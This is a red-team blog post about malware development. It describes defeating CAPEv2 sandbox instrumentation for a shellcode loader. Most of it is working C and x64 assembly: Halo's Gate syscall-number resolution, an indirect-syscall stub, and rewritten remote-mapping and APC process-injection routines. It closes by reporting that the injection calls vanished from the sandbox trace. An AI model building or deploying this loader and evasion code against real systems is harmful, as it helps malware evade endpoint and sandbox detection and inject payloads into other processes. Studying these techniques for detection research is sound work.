+++
title = 'Against Runtime Analysis: Sandboxes, Syscalls and Hooks'
date = 2026-05-31T06:16:51-04:00
tags = ["red team", "programming", "malware development"]
+++

While a VirusTotal '0' score is satisfying, it isn't pragmatic to live in that world, as VT limits itself to static IoCs. Thus, naturally the next challenge was defeating runtime analysis. To build the runtime analysis lab I used [CAPEv2 sandbox](https://github.com/kevoreilly/CAPEv2) and then tried to defeat its instrumentation capabilities through Halo's Gate and Indirect Syscalls. I further explored Parent Process Spoofing and Mitigation policies to restrict monitoring DLLs.

## Installing CAPE

While my first choice was to integrate the CAPE environment with my SOC-Lab, nested virtualization was severe a roadblock, so I used a secondary machine to install CAPE on host.

I followed the steps mentioned in the CAPE documentation for [Installing CAPE](https://capev2.readthedocs.io/en/latest/installation/host/installation.html) for Ubuntu 22.04 LTS and [Preparing the Guest](https://capev2.readthedocs.io/en/latest/installation/guest/index.html) for Windows 10.

I'd strongly recommend to use Ubuntu 22.04 LTS as the host OS as I faced challenges with the monolithic installation scripts on other OSs (particularly Kali Linux).

> As I wasn't planning to set up a hardcore malware analysis lab and wanted to just play with the instrumentations, I went with default options. Wherever the scripts asked to change `<WOOT>`, I used one of the options from the examples attached.

## Back to the Start

I started with the loader I developed by the end of the [last blog](https://ashtrace.github.io/posts/stripping_iocs/). I provided it with the URL to a payload to launch calculator and executable name to launch the child process which I leverage in remote mapping injection and APC injection.

As I detonated the loader, the sandbox easily detected the APC Injection.



The sandbox drew the entire process tree depicting the child process of `notepad.exe` created by my loader and the `calc.exe` executable finally launched at the end.



Skimming through the function calls traced during analysis, I discovered the sequence that showed the loader's operations as is:



Function in Source Code | Intercepted Call | Used by the Loader for
------------------------|-------------------|--------------------
CreateProcessW | CreateProcessInternalW | To create the child process from argument #2 (here `notepad.exe`) in a suspended state for APC Injection
CreateFileMappingW | NtCreateSection | To create a section of memory for remote-mapping injection
MapViewOfFile | NtMapViewOfSection | To map a writable view of memory section from previous call; used to write the payload in parent process
MapViewOfFile2 / MapViewOfFileNuma2 | NtMapViewOfSection | To map an executable view of memory section in child process to run the payload written by parent process
QueueUserAPC | NtQueueApcThread | Schedule an asynchronous procedure call to be executed as soon as the child process is removed from the suspended state.
DebugActiveProcessStop | NtOpenProcess | Resume the process from a suspended state (see the `PROCESS_SUSPEND_RESUME` flag).

As you can see that the loader sang as a cuckoo.

## Deep within the Matryoshka Dolls

Unlike the WinAPI calls used by us in the source code, almost all the functions intercepted by the sandbox started with `Nt` although with the same parameters  originally provided by us.

It all starts with the architecture of Microsoft Windows OS. A simple view is as follows ([*image credit*](https://stl-tec.de/tutorials/WinReverseEng/windowsArchitecture/))

.

User processes (such as our loader) leverage WinAPI functions provided by Subsystem DLLs (such as `KERNEL32.dll` providing `MapViewOfFile`) which build upon the procedures provided by `NTDLL.dll` (`MapViewOfFile` using `NtMapViewOfSection` internally) to provide access to internal features of OS. These procedures provided by `NTDLL.dll` are aptly prefixed by `Nt` (or `Zw`, read more [here](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/using-nt-and-zw-versions-of-the-native-system-services-routines)) and are called Native API.

The end of a user land function call is designated by the `syscall` instruction within each of the Native APIs where the control is transferred to kernel mode, which performs tasks and returns the result.

Thus the Native API functions in `NTDLL.dll` are the ultimate sink where every function lands before the kernel operates on the request and thus the CAPE sandbox leverages this single entry-gate to eavesdrop on the operations by hooking on the function calls just before `syscall` instruction is executed.

These Native API functions are also called as syscall stubs - `syscall` being the instruction defining their existence and they are stub because they simply act as a wrapper to call the corresponding kernel routine to perform the required task in the privileged kernel mode. More often than not, these stubs have a generic design. Each kernel routine is defined by a unique number called System Service Number (SSN) or simply syscall number.

- Copy the function parameter in `RCX` register to protect against mangling
- Move the System Service Number into the `EAX` register.
- Execute `SYSCALL` to transfer control to the kernel
- `RET`urn with the result.

Following are syscall stubs for `NtMapViewOfSection`, `ZwAccessCheckAndAuditAlarm` , `NtUnmapViewOfSection` and others.



### Hooking onto you

A function hook replaces the first few instructions from the syscall stub with an unconditional jump (`jmp` instruction) to an inspection procedure that looks upon and interacts with the parameters passed to the Native API call.

Thus an original stub changes from

```
4C:8BD1                          | mov r10,rcx                                    |
B8 50000000                      | mov eax,50                                     | SSN = 0x50
0F05                             | syscall                                        |
C3                               | ret                                            |
```

to

```
49:BA 1811A398F77F0000           | mov r10, 7FF798A31118                          | Inspection function address = 0x00007ff798a31118
41:FFE2                          | jmp r10                                        | Always go through the inspection function
```

## Anti Nt-Analysis

While the SSN for Native API is not constant and may change between each build, it is always allocated incrementally i.e. the first Native API will have SSN 0, followed by SSN 1 and so on ..., this is cleverly used by [`SysWhispers2`](https://github.com/jthuraisamy/Syswhispers2) to resolve SSNs.

Notice, in the previous section, how each syscall stub has the same instruction except for the SSN. Thus, each syscall stub has the same assembly bytecode except for the SSN. This can be leveraged to search the entire `NTDLL.dll` memory region for the exact byte-sequence of `0x4c`, `0x8b`, `0xd1`, `0xb8` at the start of the syscall-stub.

This serial searching of byte-sequence helps to retrieve the SSN from the Native API's bytecode and is known as the [Hell's Gate](https://github.com/am0nsec/HellsGate) approach.

The search logic looks like the following:

```c
// Quick and dirty fix in case the function has been hooked
WORD cw = 0;
while (TRUE) {
    // check if syscall, in this case we are too far
    if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
        return FALSE;

    // check if ret, in this case we are also probaly too far
    if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
        return FALSE;

    // First opcodes should be :
    //    MOV R10, RCX
    //    MOV RCX, <syscall>
    if (*((PBYTE)pFunctionAddress + cw) == 0x4c
        && *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
        && *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
        && *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8
        && *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
        && *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
        BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
        BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);
        pVxTableEntry->wSystemCall = (high << 8) | low;
        break;
    }

    cw++;
};
```

The `high << 8 | low` operation helps to reconstruct the SSN number from the 4th and 5th byte of the syscall stub.

But if any Native API has been tampered with hooking, the bytecode comparisons would fail and SSN won't be calculated.

### Halo of the Gods

While Hell's Gate would help me identify and avoid hooked Native APIs, it does not provide me with a way to retrieve their SSN. Thus, if a function is hooked, there is no way to execute it and my operations stop there.

This problem can be solved by the Halo's Gate approach which combines the SysWhisper2's theory with the Hell's Gate search. As each SSN is allocated in incremental order, on encountering a hooked syscall stub I can search forward beyond the `syscall` and `ret`s while counting the numbers of stubs I've encountered. Wherever I found an unhooked stub with SSN, I just subtract the numbers of stubs I walked from my target function to get here. The same can be done by searching backwards and adding the number of syscall stubs encountered.

A pictorial visualization (generated with AI) of the search is as follows:



The operation `(high << 8 | low) +/- idx` builds upon the Hell's Gate SSN calculation by adding or subtracting the number of indexes one had to move to land to an unhooked stub (counted by `idx` variable).

Programmatically, the search logic appears as following:

```c
for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
    PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
    PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];
    if (pczFunctionName == TargetFunctionName) {
        pVxTableEntry->pAddress = pFunctionAddress;

        // First opcodes should be :
        //    MOV R10, RCX
        //    MOV RAX, <syscall>
        if (*((PBYTE)pFunctionAddress) == 0x4c
            && *((PBYTE)pFunctionAddress + 1) == 0x8b
            && *((PBYTE)pFunctionAddress + 2) == 0xd1
            && *((PBYTE)pFunctionAddress + 3) == 0xb8
            && *((PBYTE)pFunctionAddress + 6) == 0x00
            && *((PBYTE)pFunctionAddress + 7) == 0x00) {

            BYTE high = *((PBYTE)pFunctionAddress + 5);
            BYTE low = *((PBYTE)pFunctionAddress + 4);
            pVxTableEntry->wSystemCall = (high << 8) | low;
            
            return TRUE;
        }
            //if hooked check the neighborhood to find clean syscall
        if (*((PBYTE)pFunctionAddress) == 0xe9) {
            for (WORD idx = 1; idx <= 500; idx++) {
                // check neighboring syscall down
                if (*((PBYTE)pFunctionAddress + idx * DOWN) == 0x4c
                    && *((PBYTE)pFunctionAddress + 1 + idx * DOWN) == 0x8b
                    && *((PBYTE)pFunctionAddress + 2 + idx * DOWN) == 0xd1
                    && *((PBYTE)pFunctionAddress + 3 + idx * DOWN) == 0xb8
                    && *((PBYTE)pFunctionAddress + 6 + idx * DOWN) == 0x00
                    && *((PBYTE)pFunctionAddress + 7 + idx * DOWN) == 0x00) {
                    BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * DOWN);
                    BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * DOWN);
                    pVxTableEntry->wSystemCall = (high << 8) | low - idx;
                    
                    return TRUE;
                }
                // check neighboring syscall up
                if (*((PBYTE)pFunctionAddress + idx * UP) == 0x4c
                    && *((PBYTE)pFunctionAddress + 1 + idx * UP) == 0x8b
                    && *((PBYTE)pFunctionAddress + 2 + idx * UP) == 0xd1
                    && *((PBYTE)pFunctionAddress + 3 + idx * UP) == 0xb8
                    && *((PBYTE)pFunctionAddress + 6 + idx * UP) == 0x00
                    && *((PBYTE)pFunctionAddress + 7 + idx * UP) == 0x00) {
                    BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * UP);
                    BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * UP);
                    pVxTableEntry->wSystemCall = (high << 8) | low + idx;
                    
                    return TRUE;
                }

            }
            return FALSE;
        }
        if (*((PBYTE)pFunctionAddress + 3) == 0xe9) {
            for (WORD idx = 1; idx <= 500; idx++) {
                // check neighboring syscall down
                if (*((PBYTE)pFunctionAddress + idx * DOWN) == 0x4c
                    && *((PBYTE)pFunctionAddress + 1 + idx * DOWN) == 0x8b
                    && *((PBYTE)pFunctionAddress + 2 + idx * DOWN) == 0xd1
                    && *((PBYTE)pFunctionAddress + 3 + idx * DOWN) == 0xb8
                    && *((PBYTE)pFunctionAddress + 6 + idx * DOWN) == 0x00
                    && *((PBYTE)pFunctionAddress + 7 + idx * DOWN) == 0x00) {
                    BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * DOWN);
                    BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * DOWN);
                    pVxTableEntry->wSystemCall = (high << 8) | low - idx;
                    return TRUE;
                }
                // check neighboring syscall up
                if (*((PBYTE)pFunctionAddress + idx * UP) == 0x4c
                    && *((PBYTE)pFunctionAddress + 1 + idx * UP) == 0x8b
                    && *((PBYTE)pFunctionAddress + 2 + idx * UP) == 0xd1
                    && *((PBYTE)pFunctionAddress + 3 + idx * UP) == 0xb8
                    && *((PBYTE)pFunctionAddress + 6 + idx * UP) == 0x00
                    && *((PBYTE)pFunctionAddress + 7 + idx * UP) == 0x00) {
                    BYTE high = *((PBYTE)pFunctionAddress + 5 + idx * UP);
                    BYTE low = *((PBYTE)pFunctionAddress + 4 + idx * UP);
                    pVxTableEntry->wSystemCall = (high << 8) | low + idx;
                    return TRUE;
                }

            }
            return FALSE;
        }
    }
}
```

### Now it's our Turn to Jump

After I retrieve the SSN, I'll have to set it up using a Native-API-like stub in my source code and call the kernel routines by executing `syscall` instruction from my user land process.

```
mov r10, rcx
mov eax, wSystemCall   ; <--------- SSN
syscall
ret
```

This technique is called a direct syscall approach and can be easily detected by inspecting the call stack that highlights the `syscall` instruction being executed outside of the `NTDLL.dll` memory space.

To rephrase, the defensive controls expect `syscall` instructions only from the `NTDLL.dll` memory.

As I already need crawl the `NTDLL.dll` memory for SSN, if I store the address of the `syscall` instructions too, I can jump to them once I've configured the parameters and setup the call.

Thus the modified stub in my user land code would look like:

```
mov r10, rcx
mov eax, wSystemCall		        ; <---------- SSN
jmp qword ptr [qSyscallInsAdress]	; jumping to syscall-instruction's address instead of executing 'syscall'
ret
```

This is what they call the indirect syscall approach.

### Less Talk, More Code

> If you haven't gone through the [previous blog](https://ashtrace.github.io/posts/stripping_iocs/), I highly suggest to read it before continuing.

To implement what is discussed above, I started with a defining structure to hold the SSN and address for the `syscall` instruction for each Native API.

As I already had compile-time API hashing from previous blog iterations, I leveraged it to make the API's name's hash as its primary identifier instead of hardcoding their names in plaintext.

```c
// Stores information pertaining to a syscall
typedef struct _NT_SYSCALL
{
	ULONG uSyscallHash;             // syscall hash value
	DWORD dwSSn;                    // syscall number
	PVOID pSyscallInstAddress;		// address for `syscall` instruction.
}NT_SYSCALL, * PNT_SYSCALL;
```

Next, I decided upon the APIs to be targeted. I went on with the functions being used in Remote-Mapping Injection and APC Injection.

```c
// All the syscalls that I'll need
typedef struct _SYSCALL_TABLE {
	NT_SYSCALL NtCreateSection;
	NT_SYSCALL NtMapViewOfSection;
    NT_SYSCALL NtClose;
	NT_SYSCALL NtQueueApcThread;
} SYSCALL_TABLE, * PSYSCALL_TABLE;
```

Using the compile-time hash macros from the previous blog, I defined the target function hashes along with hash for the module name.

```c++
// define hashes for syscall wrappers at compile-time
CTIME_HFOWLERA(NtCreateSection);
CTIME_HFOWLERA(NtMapViewOfSection);
CTIME_HFOWLERA(NtClose);
CTIME_HFOWLERA(NtQueueApcThread);

// define hash for ntdll.dll at compile-time
constexpr ULONG	NTDLL_FnvvW = HashStringFowlerNollVoVariant1aW(L"NTDLL.DLL");
```

Next, I defined an `GetSyscallAddress` function to resolve the SSN and `syscall` instruction address in `NTDLL.dll` from the target function hash using the Halo's Gate search approach.

```c
BOOL GetSyscallAddress(
	IN  PWINAPI_MODULE  pNtdll,                 // internal representation of NTDLL.dll module
	IN  ULONG           uSysHash,               // target function's hash
	OUT PNT_SYSCALL     pNtSys                  // struct to return data for target function
) {
	PBYTE pNtBase = (BYTE*)pNtdll->ModuleHandle;

	if (uSysHash != NULL)
		pNtSys->uSyscallHash = uSysHash;
	else
		return FALSE;

	// searching for 'uSysHash' in the exported functions of ntdll
	size_t i = 0;
	for (i ; i < pNtdll->NumberOfFunctions; i++) {

		PCHAR pcFuncName = (PCHAR)(pNtBase + pNtdll->FunctionNameArray[i]);
		PVOID pFuncAddress = (PVOID)(pNtBase + pNtdll->FunctionAddressArray[pNtdll->FunctionOrdinalArray[i]]);

		// if syscall found
		if (RTIME_HFOWLERA(pcFuncName) == uSysHash) {

			// SEARCH LOGIC AS DEFINED FOR HALO'S GATE
		
		}

	}

	ULONG_PTR uFuncAddress = (ULONG_PTR)(pNtBase + pNtdll->FunctionAddressArray[pNtdll->FunctionOrdinalArray[i]]);

    // resolving the `syscall` instruction address
    for (DWORD z = 0; z <= RANGE; z++) {
		if (*((PBYTE)uFuncAddress + z) == 0x0F && *((PBYTE)uFuncAddress + z + 1) == 0x05) {
			pNtSys->pSyscallInstAddress = (PVOID)((ULONG_PTR)uFuncAddress + z);
			break;  // break for-loop [x]
		}
	}


	// checking if all NT_SYSCALL's (pNtSys) element are initialized
	if (pNtSys->dwSSn != NULL && pNtSys->pSyscallInstAddress != NULL && pNtSys->uSyscallHash != NULL)
		return TRUE;
	else
		return FALSE;
}
```

Next, I retrieved the required information for all my target Native API functions.

```c
BOOL ResolveSyscalls(
	OUT PSYSCALL_TABLE*	ppSyscallTable
) {

	PWINAPI_MODULE	pNtdll = (PWINAPI_MODULE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WINAPI_MODULE));

	if (!pNtdll) {
		DEBUG_PRINT("Failed to allocate memory for NTDLL module.");
		return FALSE;
	}

	pNtdll->ModuleHash = NTDLL_FnvvW;
	GetModuleHandleCustom(pNtdll);				// populates pNtdll->ModuleHandle

	GetProcAddressCustom(pNtdll, NULL);			// populates the count and array addresses for Ntdll

	if (!pNtdll->ModuleHandle || !pNtdll->NumberOfFunctions || !pNtdll->FunctionNameArray || !pNtdll->FunctionAddressArray || !pNtdll->FunctionOrdinalArray) {
		DEBUG_PRINT("Failed to fetch information for NTDLL.DLL");
		return FALSE;
	}

	PSYSCALL_TABLE pSysTable = (PSYSCALL_TABLE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(SYSCALL_TABLE));

	if (!pSysTable) {
		DEBUG_PRINT("Failed to allocate memory for syscall table.");
		return FALSE;
	}

	if (!GetSyscallAddress(pNtdll, NtCreateSection_FnvvA, &pSysTable->NtCreateSection)) {
		DEBUG_PRINT("Failed to resolve NtCreateSection.");
		return FALSE;
	}
	DEBUG_PRINT("\"NtCreateSection\" syscall number: %d\t`syscall` instruction address: 0x%p", pSysTable->NtCreateSection.dwSSn, pSysTable->NtCreateSection.pSyscallInstAddress);

	if (!GetSyscallAddress(pNtdll, NtMapViewOfSection_FnvvA, &pSysTable->NtMapViewOfSection)) {
		DEBUG_PRINT("Failed to resolve NtMapViewOfSection.");
		return FALSE;
	}
	DEBUG_PRINT("\"NtMapViewOfSection\" syscall number: %d\t`syscall` instruction address: 0x%p", pSysTable->NtMapViewOfSection.dwSSn, pSysTable->NtMapViewOfSection.pSyscallInstAddress);

    if (!GetSyscallAddress(pNtdll, NtClose_FnvvA, &pSysTable->NtClose)) {
		DEBUG_PRINT("Failed to resolve NtClose.\n");
		return FALSE;
	}
	DEBUG_PRINT("\"NtClose\" syscall number: %d\t`syscall` instruction address: 0x%p", pSysTable->NtClose.dwSSn, pSysTable->NtClose.pSyscallInstAddress);

	if (!GetSyscallAddress(pNtdll, NtQueueApcThread_FnvvA, &pSysTable->NtQueueApcThread)) {
		DEBUG_PRINT("Failed to resolve NtQueueApcThread.");
		return FALSE;
	}
	DEBUG_PRINT("\"NtQueueApcThread\" syscall number: %d\t`syscall` instruction address: 0x%p", pSysTable->NtQueueApcThread.dwSSn, pSysTable->NtQueueApcThread.pSyscallInstAddress);

	*ppSyscallTable = pSysTable;

	return TRUE;
}
```

To use the SSN, I defined the following stub in x64 assembly:

```asm
.data
  wSystemCall       DWORD	0h	    ; syscall number
  qSyscallInsAdress QWORD	0h	    ; memory address of the `syscall` instruction

.code 
	HellsGate PROC
      mov wSystemCall, 0h
      mov qSyscallInsAdress, 0h
      mov wSystemCall, ecx		    ; saving the ssn value to wSystemCall
      mov qSyscallInsAdress, rdx	; saving the syscall instruction address to qSyscallInsAdress	
      ret
	HellsGate ENDP

	HellDescent PROC
      mov r10, rcx
      mov eax, wSystemCall		
      jmp qword ptr [qSyscallInsAdress]	; jumping to qSyscallInsAdress instead of calling 'syscall'
      ret
	HellDescent ENDP
end
```

- The `HellsGate` procedure takes SSN and syscall-instruction address as parameters and set them up in their respective variables.
- The `HellDescent` procedure performs the indirect syscall using the variables configured above.

After I had this basic scaffolding developed, I modified the remote-mapping injection source code to use indirect-system calls instead of WinAPIs.

```c
BOOL CopyBlob(
	IN	PSYSCALL_TABLE	pSyscallTable,
	IN	HANDLE			hProcess,
	IN	PBYTE			pBlob,
	IN	SIZE_T			sBlobSize,
	OUT	PBYTE*			ppBlobCopyAddress
) {
	BOOL		bSTATE = TRUE;
	HANDLE		hSection = NULL;
	PVOID		pMapLocalAddress = NULL,
				pMapRemoteAddress = NULL;
	NTSTATUS	STATUS = 0;

	SIZE_T			sViewSize = NULL;
	LARGE_INTEGER	MaximumSize = {
		.HighPart = 0,
		.LowPart = sBlobSize
	};


	HellsGate(pSyscallTable->NtCreateSection.dwSSn, pSyscallTable->NtCreateSection.pSyscallInstAddress);
	if ((STATUS = HellDescent(&hSection, SECTION_RWX, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		DEBUG_PRINT("NtCreateSection failed with error: 0x%0.8X\n", STATUS);
		bSTATE = FALSE;
		goto _EndOfFunction;
	}

	HellsGate(pSyscallTable->NtMapViewOfSection.dwSSn, pSyscallTable->NtMapViewOfSection.pSyscallInstAddress);
	if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pMapLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_READWRITE)) != 0) {
		DEBUG_PRINT("NtMapViewOfSection failed with error: 0x%0.8X\n", STATUS);
		bSTATE = FALSE;
		goto _EndOfFunction;
	}

	memcpy(pMapLocalAddress, pBlob, sBlobSize);

	HellsGate(pSyscallTable->NtMapViewOfSection.dwSSn, pSyscallTable->NtMapViewOfSection.pSyscallInstAddress);
	if ((STATUS = HellDescent(hSection, hProcess, &pMapRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READ)) != 0) {
		DEBUG_PRINT("NtMapViewOfSection failed with error: 0x%0.8X\n", STATUS);
		bSTATE = FALSE;
		goto _EndOfFunction;
	}

	*ppBlobCopyAddress = pMapRemoteAddress;

_EndOfFunction:
	if (hSection) {
		HellsGate(pSyscallTable->NtClose.dwSSn, pSyscallTable->NtClose.pSyscallInstAddress);
		if ((STATUS = HellDescent(hSection)) != 0) {
			DEBUG_PRINT("NtMapViewOfSection failed with error: 0x%0.8X\n", STATUS);
			bSTATE = FALSE;
		}
	}

	return bSTATE;
}
```

Similarly, I modified the APC-Injection function.

```c
BOOL ScheduleRun(
	IN	PSYSCALL_TABLE	pSyscallTable,
	IN	HANDLE			hThread,
	IN	PBYTE			pBlobAddress
) {

	NTSTATUS STATUS = 0;

	HellsGate(pSyscallTable->NtQueueApcThread.dwSSn, pSyscallTable->NtQueueApcThread.pSyscallInstAddress);
	if ((STATUS = HellDescent(hThread, pBlobAddress, NULL, NULL, NULL)) != 0) {
		DEBUG_PRINT("NtQueueApcThread failed with error: %lu\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```

### Did it work?

I ran the new loader through the sandbox and inspected the behavioural analysis for the function trace. Unlike the previous iteration, all the functions related to remote-mapping injection and the call for APC injection were gone.

